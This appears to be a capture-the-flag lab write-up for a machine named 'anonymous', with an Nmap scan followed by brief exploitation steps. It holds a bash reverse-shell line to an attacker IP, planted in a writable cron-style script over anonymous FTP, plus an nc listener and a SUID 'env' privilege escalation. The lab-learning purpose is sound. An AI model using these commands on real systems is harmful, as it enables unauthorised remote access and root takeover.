 


# Nmap 7.91 scan initiated Sun Sep 12 17:52:44 2021 as: nmap -sC -sV -oN anonymousRD.md 10.10.238.3
Nmap scan report for 10.10.238.3
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.159.247
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2021-09-12T12:53:32+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-12T12:53:32
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Sun Sep 12 17:53:40 2021 -- 1 IP address (1 host up) scanned in 56.06 seconds





connect to ftp anonymously 

there is file clean.sh with execute permission

edit the file to get a revshell
```bash
bash -i >& /dev/tcp/10.9.159.247/9001 0>&1
```
use put command 

put clean.sh

start a listener 
```bash
nc -lvnp 9001
```
wait for the revshell


## privesc

there is no sudo in the machine 

use 
```bash
find / -type f -perm -u=s 2>/dev/null
```
you can run 
```bash
/usr/bin/env
```
gtfobins

cd to /usr/bin

execute the command

```bash
env /bin/sh -p 
```
